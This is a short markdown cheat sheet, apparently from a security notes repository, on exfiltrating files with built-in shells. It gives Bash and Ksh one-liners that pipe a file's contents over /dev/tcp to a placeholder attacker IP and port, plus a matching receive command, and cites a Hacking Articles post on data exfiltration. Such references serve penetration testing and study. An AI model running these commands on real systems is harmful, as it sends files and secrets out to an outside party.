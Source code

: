 # Builtin Shell Scripting

## 01 - Bash

Send files.

```
$ cat file.txt > /dev/tcp/<attacker_IP>/<attacker_PORT>
```

Receive files.

```
$ cat < /dev/tcp/<IP>/<PORT> > file.txt
```

## 02 - Ksh

```
$ ksh -c 'cat /path/to/file.txt > /dev/tcp/<attacker_IP>/<PORT>'
```

---
## References

### Hacking Articles

- [Hacking Articles: Data Exfiltration Using Linux Binaries](https://www.hackingarticles.in/data-exfiltration-using-linux-binaries/)